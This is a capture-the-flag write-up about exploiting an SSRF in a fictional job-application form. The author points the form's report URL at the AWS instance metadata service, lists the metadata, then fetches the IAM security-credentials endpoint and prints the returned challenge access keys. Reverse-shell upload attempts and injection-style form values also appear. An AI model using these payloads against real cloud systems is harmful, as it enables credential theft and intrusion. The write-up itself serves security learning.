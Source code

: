 # Introduction
This is a challenge that I truely do reccomend doing. It teaches you something about AWS IMDS, something that is compleatly new to me. I suggest reading this page first to grasp a better understanding of what we are actually doing on the serverside. https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
The description for the challenge is: *What is the secret access key for the Jack Frost Tower job applications server? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.*
So we are after a secret key.

# Recon
The current target is this webpage: https://apply.jackfrosttower.com/. A simple nmap scan did reveal several open ports, but none of those will be used in this write up.
The page is simple and lets you apply to join the Jack Frost team. The four pages are Home, Opportunities, Apply or About. Dirb did find https://apply.jackfrosttower.com/images/, the dir itself is 403 forbidden, but manually finding pictures there is allowed. I'll save that for later. 
Further enumeration surronding media on the site shows that the photos under opportunity are broken and have no data. Strange, but might help. 
The apply application lets you upload files and asks for Name, Email, Phone number, URL to NLBI report and additional information. 
What is a NLBI report? http://nppd.northpolechristmastown.com/
It's a report athat you are injustly set on the naughty list. I'm guessing it does a check up against that url to see if the user is allowed to apply.

So to summerize:
- We can most likely send the server to an url
- We can upload files
- We can manually check for images in the image folder if we know the name

We need to send something in the form to check the output, additionally I will start burp to make it easier to enumerate via the repeater.
I like to put unique values to see where they end up. By that we can easier understand what gave what error.
The email form didn't like that i added chars that were illegal, but thats on the clientside. Just edit the form with inspector to change the type field from email to text and you're good to go.
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://nppd.northpolechristmastown.com/infractions 
Additional information = Give root pls
```
With these parameters I only recive a submission recived. I can't find our data anywhere, so this must not be it.
I'm going to try IMDS to see what we recive:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/
Additional information = Give root pls
```
This results in a new page! It tells us that they will be in touch. And we see a picture that is broken. But upon inspecting the picture, we seee that there is data in it. I downloaded it and tried to read the output. It resulted in the following:
```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
network/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time
```
So our query succeeded! We are using SSRF and IMDS to retrive information about the backend. Well, our goal is to retrive the public key, so lets do that!

# Exploitation
I used the following payload for my exploit:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/iam/security-credentials
Additional information = Give root pls
```
**The result**
```
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

And there we got our flag!

# Final thoughts
I'm not sure how real world this is by having the results put into a picture. But the creativity makes it so much more fun.
If you want to do this in burp you can, then you have to go to the images subpage we found earlier and get them from there.

